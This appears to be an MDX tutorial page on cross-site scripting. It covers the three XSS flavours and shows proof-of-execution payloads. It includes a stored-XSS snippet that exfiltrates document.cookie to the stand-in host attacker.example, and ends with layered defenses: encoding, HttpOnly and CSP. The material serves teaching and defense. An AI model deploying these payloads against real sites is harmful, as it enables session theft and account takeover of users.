

Cross-site scripting is injection aimed at the browser instead of the database.
When an application reflects untrusted input into a page without encoding it, the
attacker's markup becomes part of the DOM — and their JavaScript runs with the
victim's session, origin, and privileges.

## Watch it end-to-end

<YouTube
  id="dQw4w9WgXcQ"
  title="XSS walkthrough"
  timestamps={[
    { time: "0:00", label: "What XSS actually is" },
    { time: "3:12", label: "Reflected XSS demo" },
    { time: "8:40", label: "Stealing a session cookie" },
    { time: "14:05", label: "Content-Security-Policy defense" }
  ]}
/>

<Alert variant="note" title="Placeholder video">
Swap the `id` above for your own recorded walkthrough. The chapters panel on the
right seeks the embed to each timestamp.
</Alert>

## The three flavors



- **Reflected** — payload rides in the request (a link, a form) and bounces back
  in the immediate response. One victim per delivery.
- **Stored** — payload is persisted (a comment, a profile field) and fires for
  every user who views it. The dangerous one.
- **DOM-based** — the server never sees the payload; vulnerable client-side JS
  writes `location.hash` or similar straight into the DOM.

## Proving execution

Start with something unmistakable, then escalate to a real impact demonstration.

```html
<!-- Confirm the context is executable -->
<script>alert(document.domain)</script>

<!-- When tags are stripped, break out via an attribute/event handler -->
">
```

<Alert variant="warning" title="alert() is a proof, not an impact">
An `alert` box confirms execution — it does not demonstrate risk. The real
question is what that JavaScript can *do*: read the session, forge requests as
the user, or exfiltrate data.
</Alert>

## From popup to account takeover

Because the script runs in the victim's origin, it can act as them. A stored
payload that exfiltrates a session token is a full account takeover:

```js
// Stored XSS payload — exfiltrate the session to an attacker-controlled host
new Image().src =
  "https://attacker.example/c?" + encodeURIComponent(document.cookie);
```

<DefenseNote title="Layered defense that actually holds">
- **Context-aware output encoding** is the primary fix — HTML-encode for HTML,
  JS-encode for scripts, URL-encode for URLs. Encode on output, at the sink.
- Set **HttpOnly** on session cookies so injected script cannot read them.
- Deploy a strict **Content-Security-Policy** — a nonce-based policy neutralizes
  most reflected and stored payloads even when encoding is missed.
- Prefer framework auto-escaping (React, modern templating). Treat any use of
  `dangerouslySetInnerHTML` / `innerHTML` as a code review red flag.
</DefenseNote>

With encoding at every sink and a CSP as the backstop, the same payloads that
took over an account become inert text on the page.
